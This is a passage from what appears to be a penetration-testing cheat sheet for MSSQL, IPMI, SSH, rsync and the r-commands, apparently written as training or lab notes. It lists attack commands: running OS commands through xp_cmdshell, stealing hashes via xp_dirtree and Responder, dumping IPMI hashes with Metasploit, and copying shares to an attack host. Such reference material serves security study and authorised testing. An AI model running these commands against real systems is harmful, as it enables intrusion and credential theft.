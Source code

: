 | `SQL> xp_cmdshell "whoami"`                                                                                                                                                                                                                                                                       | Execute command in mssqlclient                             |
| We can use xp_dirtree and point to a share to steal the hash through responder                                                                                                                                                                                                                    |                                                            |


##### **[IPMI](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi)** (TCP/UDP 623)
|**Command**|**Description**|
|-|-|
| `sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local` | Nmap port scan |
| `msf6 auxiliary(scanner/ipmi/ipmi_version)` | IPMI version detection. |
| `msf6 auxiliary(scanner/ipmi/ipmi_dumphashes)` | Dump IPMI hashes. |


##### Linux Remote Management (**[SSH](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh)** TCP 22 - **[Rsync](https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync)** TCP 873 - R-Services 512, 513, 514 )
|**Command**|**Description**|
|-|-|
| `ssh-audit.py <FQDN/IP>` | Remote security audit against the target SSH service. |
| `ssh <user>@<FQDN/IP>` | Log in to the SSH server using the SSH client. |
| `ssh -i private.key <user>@<FQDN/IP>` | Log in to the SSH server using private key. |
| `ssh <user>@<FQDN/IP> -o PreferredAuthentications=password` | Enforce password-based authentication. |
| `sudo nmap -sV -p 873 127.0.0.1` | Rsync port scan |
| `nc -nv 127.0.0.1 873 `<br/> `#list` | Probing for Accessible Shares |
| `rsync -av --list-only rsync://127.0.0.1/dev` | Enumerating an open share |
| `rsync -av rsync://127.0.0.1/dev` | Sync all files to our attack host |
| `rsync -av rsync://127.0.0.1/dev -e "ssh -p2222"` | Sync all files to our attack host if ssh is configured in a non-standard port |
The [R-commands](https://en.wikipedia.org/wiki/Berkeley_r-commands) suite consists of the following programs:
- rcp (`remote copy`)
- rexec (`remote execution`)
- rlogin (`remote login`)
- rsh (`remote shell`)
- rstat
- ruptime
- rwho (`remote who`)

|**Command**|**Service Daemon**|**Port**|**Transport Protocol**|**Description**|
|---|---|---|---|---|
|`rcp`|`rshd`|514|TCP|Copy a file or directory bidirectionally from the local system to the remote system (or vice versa) or from one remote system to another. It works like the `cp` command on Linux but provides `no warning to the user for overwriting existing files on a system`.|
|`rsh`|`rshd`|514|TCP|Opens a shell on a remote machine without a login procedure. Relies upon the trusted entries in the `/etc/hosts.equiv` and `.rhosts` files for validation.|
|`rexec`|`rexecd`|512|TCP|Enables a user to run shell commands on a remote machine. Requires authentication through the use of a `username` and `password` through an unencrypted network socket. Authentication is overridden by the trusted entries in the `/etc/hosts.equiv` and `.rhosts` files.|
|`rlogin`|`rlogind`|513|TCP|Enables a user to log in to a remote host over the network. It works similarly to `telnet` but can only connect to Unix-like hosts. Authentication is overridden by the trusted entries in the `/etc/hosts.equiv` and `.rhosts` files.|
